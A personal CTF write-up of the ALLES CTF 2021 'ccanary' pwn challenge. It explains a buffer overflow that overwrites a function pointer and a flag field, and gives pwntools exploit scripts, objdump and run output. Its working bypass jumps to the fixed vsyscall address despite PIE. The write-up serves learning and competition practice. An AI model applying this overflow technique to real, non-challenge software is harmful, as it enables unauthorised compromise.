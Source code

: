 ```yaml
---
layout: post
title: ALLES CTF 2021
subtitle: Writeups for ALLES CTF 2021 
tags: [ctf, writeups]
comments: true
---
```


## Description
```
I'm using arch btw... ¯\_(ツ)_/¯
```
## Challenge files:
- [ccanary](docs/ALLESCTF2021/ccanary)
- [ccanary.c](docs/ALLESCTF2021/ccanary.c)

Look at the source code, we can see that it got a **buffer overflow vulnerability** at the `quotegets` function:
```c
void quotegets(char* inp) {
	*inp = '"';
	// read input
	for (; *inp != '\n';)
		*++inp = fgetc(stdin);
	// append postfix
	for (char* postfix = "\"\n- you, 2021"; *postfix; postfix++)
		*inp++ = *postfix;
	// NUL-terminate
	*inp = 0;
}
```

Look at the main function, looks like we can overwrite the `call_canary` and `give_flag`  inside the structure variable:
```c
int main(void) {
    ignore_me_init_buffering();
    struct data data = {
        .yourinput = { 0 },
        .call_canary = canary,
        .give_flag = 0,
    };

    printf("quote> ");
    quotegets((char*) &data.yourinput);

    data.call_canary();
    puts("good birb!");

    puts("");
    puts((char*) &data.yourinput);

    if (data.give_flag) {
        puts("Here's the flag:");
        system("cat flag");
    }
    return 0;
}
```

Unfortunately, running checksec the binary have PIE enabled (means function address random)
```
checksec ccanary
[*] '/home/hong/ctf/alles2021/ccanary/ccanary'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

## Exploit
So basically we must overwrite the `give_flag` to anything, then it will run `cat flag.txt` for us

But the `call_canary` also will overwritten, if we overwrite it with invalid function address, it will just SEGFAULT before it prints the flag

### Attempt 1
Assume the machine PIE feauture is disabled, so we can overwrite it with the default address

I first compile it with `no-pie` flag, then view the default address:
```bash
gcc -o test ccanary.c -no-pie 
objdump -x test
...
...
00000000004013b0 g     F .text  0000000000000065              __libc_csu_init
0000000000404090 g       .bss   0000000000000000              _end
0000000000401120 g     F .text  0000000000000005              .hidden _dl_relocate_static_pie
00000000004010f0 g     F .text  000000000000002f              _start
0000000000404058 g       .bss   0000000000000000              __bss_start
00000000004012ce g     F .text  00000000000000dd              main
0000000000000000       F *UND*  0000000000000000              setvbuf@@GLIBC_2.2.5
0000000000401252 g     F .text  000000000000007c              quotegets
0000000000404058 g     O .data  0000000000000000              .hidden __TMC_END__
0000000000401000 g     F .init  0000000000000000              .hidden _init
000000000040123b g     F .text  0000000000000017              canary
0000000000404080 g     O .bss   0000000000000008              stderr@@GLIBC_2.2.5
```

Then I wrote a pwntools script to exploit it:
```py
from pwn import *
elf = ELF("./test")

p = elf.process()
p.sendlineafter(b"quote> ",(b"a"*31+p64(0x40123b)))
p.interactive()
```
```
 python3 solve.py
[*] '/home/hong/ctf/alles2021/ccanary/test'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/hong/ctf/alles2021/ccanary/test': pid 1147
[*] Switching to interactive mode
canary: *chirp* *chirp*
good birb!

"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa;\x12
Here's the flag:
cat: flag: No such file or directory
[*] Got EOF while reading in interactive
```
It works locally! But it failed in the real machine...
```py
p = remote("7b000000a8c3acb6af92129b-ccanary.challenge.master.allesctf.net", 31337,ssl=True)
p.sendlineafter(b"quote> ",(b"a"*31+p64(0x4012ce)))
p.interactive()
```
```
python3 solve.py
[*] '/home/hong/ctf/alles2021/ccanary/test'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/hong/ctf/alles2021/ccanary/test': pid 1300
[+] Opening connection to 7b000000a8c3acb6af92129b-ccanary.challenge.master.allesctf.net on port 31337: Done
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$
$
[*] Closed connection to 7b000000a8c3acb6af92129b-ccanary.challenge.master.allesctf.net port 31337
```

## Attempt 2
Maybe the address not start with 4? So I tried to brute force from 1 to 9 address.

But It fails again...

## Attempt 3
At the end I did not solve this during the CTF.. I look for writeups at the Discord, and I saw someone mention about overwrite with `vsyscall` address

The `vsyscall` address at Linux kernel so will be static for all systems I guess?

[vsyscall and vdso](http://terenceli.github.io/%E6%8A%80%E6%9C%AF/2019/02/13/vsyscall-and-vdso)

Then I tried the address `0xffffffffff600000` it works like charm!!

```
python3 solve.py
[*] '/home/hong/ctf/alles2021/ccanary/test'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 7b000000a8c3acb6af92129b-ccanary.challenge.master.allesctf.net on port 31337: Done
[*] Switching to interactive mode
good birb!

"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Here's the flag:
ALLES!{th1s_m1ght_n0t_work_on_y0ur_syst3m_:^)}

```

## Flag
```
ALLES!{th1s_m1ght_n0t_work_on_y0ur_syst3m_:^)}
```